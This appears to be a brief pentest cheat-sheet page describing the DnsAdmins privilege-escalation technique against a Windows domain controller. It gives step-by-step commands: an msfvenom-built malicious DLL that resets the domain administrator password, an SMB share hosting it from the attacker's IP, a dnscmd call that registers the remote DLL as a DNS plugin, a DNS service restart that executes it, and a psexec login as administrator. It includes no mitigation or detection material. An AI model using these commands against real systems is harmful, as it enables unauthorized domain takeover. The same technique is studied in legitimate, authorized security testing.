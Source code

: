 ### A user that is a member of the DnsAdmins group, has the ability to use dnscmd.exe to specify a plugin DLL that should be loaded by the DNS service.

### We can create our own malicious .dll payload with msfvenom to escalate privileges

### Steps:

#### 1) msfvenom -p windows/x64/exec cmd='net user administrator P@55w0rd123! /domain' -f dll > pwn.dll

#### 2) sudo smbserver.py share ./ (Host the file remotely)

#### 3) cmd /c dnscmd localhost /config /serverlevelplugindll \\OUR_IP\share\pwn.dll (Set the remote DLL path into the windows registry)

#### 4) sc.exe stop dns

#### 5) sc.exe start dns (Restart the DNS service to execute our malicious dll)

#### 6) sudo psexec.py DOMAIN.LOCAL/administrator@DC_IP

#### 7) PWN3D!
